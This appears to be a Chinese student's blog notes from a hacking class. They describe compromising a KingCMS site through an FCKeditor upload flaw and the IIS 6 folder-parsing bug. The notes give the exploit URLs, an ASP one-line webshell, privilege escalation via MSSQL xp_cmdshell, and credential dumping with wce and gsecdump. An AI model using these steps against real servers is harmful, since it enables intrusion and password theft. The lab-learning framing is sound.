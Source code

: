 ```yaml
---
layout: page  
title: The Hacker Way(1)  
category: 技术  
tags: Hacker   
---
```

{% include JB/setup %}

今天正式进入“十个小伙伴的故事”实战。这节课没有多余的废话，就是实战。

猥琐的老湿在他自己搭建的环境上演示了一把入侵，然后分析了下入侵的细节，然后我们便依样画葫芦的进行了一遍入侵。尽管只算是个小模拟，但是小心脏还是扑通扑通的兴奋。

今晚是第一次接触“入侵”，对于大部分概念不甚理解。现在只能记录下大概的操作步骤，作为记录。

这次的入侵是利用了网站的FCKEditor文件上传漏洞。

##### Step1. 定位漏洞，创建特殊文件夹名，再执行文件解析漏洞得到webshell
其实这里的难点应该是定位漏洞，不过作为第一次的实战课，老湿侧重让大家体验入侵的过程，省略了定位的过程。   

- 通过漏洞新建一个文件夹`/kingcms/admin/system/editor/FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/hack.asp&NewFolderName=hack.asp`
- 进入操作界面
`/kingcms/admin/system/editor/FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp`
- 制作包含ASP webshell代码的正常后缀名文件, 例如jpg文件
echo "<%execute(request("MH"))%>" >> jinbin.jpg
- 上传此文件至刚才新创建的文件夹内
此处利用了IIS 6处理文件夹扩展名时，将/\*.asp/目录下的所有文件都作为ASP文件进行解析的漏洞。此时，IIS 6将jinbin.jsp作为ASP文件处理。

##### Step2. 查找可进行提权的漏洞
完成第一步，仅仅只能获得普通权限，一般情况下其实什么也做不了。所以，找到提权的漏洞是第二步。

- 浏览目录结构，找到提权途径，一般分为以下几种：
  - 数据库
  - web应用程序
  - OS
  - 第三方软件
  - DLL劫持
  - 启动项 (...)  

此处利用里数据库的漏洞。所以把注意力放到配置文件中，找到数据库配置信息。一般来说，数据库信息都经过了加密，所以要学会解密(解密过程没怎么讲，所以略过)。

##### Step3. 服务器提权
利用植入的大马(猥琐的老湿事先已经准备好)，和Step2中得到的用户名、密码，通过MSSQL的扩展存储xp_cmdshell可直接执行命令，且权限为system

##### Step4. 获取账号hash
1. wce 可以通过wce -w 获取目前正处于登录状态的所有账号明文密码。   
   WCE全称Windows Credentials Editor。
2. gsecdump 可以通过gsecdump -a 获取处于这台服务器上的账号密码hash，然后通过彩虹表进行破解.  
这里可以参考http://www.objectif-securite.ch/en/ophcrack.php (在线LM Hash破解网站)  

这里的命令都利用了Step3 中的xp_cmdshell来执行。

至此，主机的管理员用户名及密码都已经到手了。
